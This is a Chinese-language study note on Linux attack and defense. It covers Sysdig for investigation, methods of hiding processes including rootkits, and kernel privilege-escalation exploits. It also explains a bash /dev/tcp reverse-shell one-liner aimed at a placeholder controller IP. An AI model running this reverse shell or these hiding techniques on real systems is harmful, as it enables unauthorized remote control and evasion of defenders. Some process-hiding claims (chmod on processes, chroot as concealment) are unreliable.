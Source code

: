 ```yaml
---
title: 攻击和防御
---
```

包含 nc 反弹shell 等常见攻击手段 使用Sysdig进行排查

https://www.exploit-db.com/

Sysdig : Open Source Universal System Visibility With Native Contaier Support.

虽然 Linux 有很多系统分析和调优的工具 如strace、tcpdump、htop、iftop、lsof、netstat，但是它们一般都负责某个特殊的功能，并且使用方式有很大的差异，如果要分析和定位问题，一般都需要熟练掌握需要命令的使用。而且这些工具的数据无法进行共享，只能相互独立工作。Sysdig 一个工具就能实现上述所有工具的功能，并且提供了统一的使用语法。



CPU、Memory、Disk IO、网络 IO•支持各种 IO 活动：进程、文件、网络连接等

来分析这些数据



Sysdig 有着类似于 tcpdump 的过滤语法，用户可以随意组合自己的过滤逻辑，用户还可以自己编写 Lua 脚本来自定义分析逻辑，基本上不受任何限制。



https://mp.weixin.qq.com/s/j4vfelk1Eu-rl2s8B70_CQ







Linux 隐藏进程的方法有以下几种：

- 修改进程名：通过修改进程名，使进程不易被发现。可以使用命令行工具如 ps、top 来查看进程名。修改进程名可以使用命令 prctl 或 setproctitle。

- 修改进程所在目录：可以将进程所在目录修改为一个隐藏目录，使进程不易被发现。可以使用 chroot 命令将进程所在目录修改为一个隔离的目录。

- 修改进程权限：可以修改进程的权限，使其只能被 root 用户或者某个特定用户访问。可以使用 chmod 命令修改进程权限。

- 使用 rootkit 技术：rootkit 是一种用于隐藏进程和文件的恶意软件。可以使用 rootkit 技术隐藏进程。


反弹shell
一个反弹shell生成器 https://github.com/0dayCTF/reverse-shell-generator

例如：
```bash
bash -i >& /dev/tcp/控制端IP/控制端端口 0>&1
```
这个命令的作用是将标准输入、输出和错误重定向到一个 TCP 连接，从而实现反弹 shell。具体来说，该命令将标准输出和错误输出都重定向到一个 TCP 连接，并将标准输入重定向到标准输出和错误输出的合并，从而使得攻击者可以通过控制端口向目标机器发送命令并获取输出，实现反弹 shell 的效果。  
https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean










1. 内核利用
内核 exp 是可以利用内核漏洞以使用提升的权限执行任意代码的程序。内核漏洞通常使攻击者以 root 命令提示符的形式对目标系统进行访问。在许多情况下,在 Linux 系统上获取 root 就是将内核漏洞源码下载到目标文件系统, 编译, 然后执行它。
